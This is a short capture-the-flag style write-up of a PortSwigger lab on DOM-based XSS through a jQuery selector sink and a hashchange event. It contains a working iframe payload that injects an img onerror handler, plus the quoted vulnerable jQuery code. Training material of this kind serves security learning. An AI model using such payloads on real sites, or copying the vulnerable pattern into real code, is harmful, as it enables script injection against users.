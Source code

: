 ### Portswigger - Lab: DOM XSS in jQuery selector sink using a hashchange event

## Description 
This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's $() selector function to auto-scroll to a given post, whose title is passed via the location.hash property.
To solve the lab, deliver an exploit to the victim that calls the print() function in their browser.
## Soulution
Notice the vulnerable code on the home page using Burp or the browser's DevTools.
From the lab banner, open the exploit server.
In the Body section, add the following malicious iframe:
Payload:
```javascript
<iframe src="https://0a4a00c1036a6096c3314261005d00ff.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```
Then click deliver exploit

## vulnerable code
```html
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
    });
</script>
```


